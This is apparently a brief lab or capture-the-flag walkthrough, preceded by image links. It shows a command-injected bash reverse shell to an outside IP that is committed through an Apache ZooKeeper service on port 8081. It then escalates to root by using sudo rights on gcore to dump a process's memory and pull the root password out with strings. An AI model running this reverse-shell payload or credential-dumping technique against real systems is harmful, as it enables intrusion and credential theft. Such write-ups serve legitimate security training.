






	

Checking port 8081

# 8081
We have apache zookeeper:


```
$(/bin/bash -i >& /dev/tcp/192.168.45.167/8000 0>&1)
```
Modifying it and commiting all we get a shell:

We have sudo access for gcore

Checking pid for ssh programs running:

This didn't work

Now checking linpeas output:

Now checking process id and doing gcore:
```
sudo gcore 548
```
Then:
```
strings core.548
```

We get a password for root.


Change to root user:
